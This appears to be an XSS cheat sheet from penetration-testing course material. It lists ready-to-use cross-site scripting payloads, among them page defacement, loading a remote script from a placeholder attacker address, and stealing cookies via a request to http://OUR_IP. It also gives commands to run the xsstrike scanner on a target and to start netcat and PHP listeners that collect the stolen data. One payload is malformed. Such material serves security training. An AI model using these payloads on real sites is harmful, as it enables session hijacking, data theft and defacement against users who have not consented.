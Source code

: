 # XSS Cheat Sheet


```Javascript
<script>alert(window.origin)</script>
```
*Description:* Basic XSS Payload

```Javascript
<plaintext>
```
*Description:* Basic XSS Payload

```Javascript
<script>print()</script>
```
*Description:* Basic XSS Payload

```Javascript
<img src="" onerror=alert(window.origin)>
```
*Description:* HTML-based XSS Payload

```Javascript
<script>document.body.style.background = "#141d2b"</script>
`````
*Description:* Change Background Color

```Javascript
<script document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```
*Description:* Change Background Image

```Javascript
<script>document.title = 'HackTheBox Academy'</script>
```
*Description:* Change Website Title

```Javascript
<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>
```
*Description:* Overwrite website's main body

```Javascript
<script>document.getElementById('urlform').remove();</script>
`````
*Description:* Remove certain HTML element

```Javascript
<script src="http://OUR_IP/script.js"></script>
```
*Description:* Load remote script

```Javascript
<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>
```
*Description:* Send Cookie details to us

## Commands

```python
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"
```
*Description:* Run `xsstrike` on a url parameter

```sh
sudo nc -lvnp 80
```
*Description:* Start `netcat` listener

```sh
sudo php -S 0.0.0.0:80
```
*Description:* Start `PHP` server

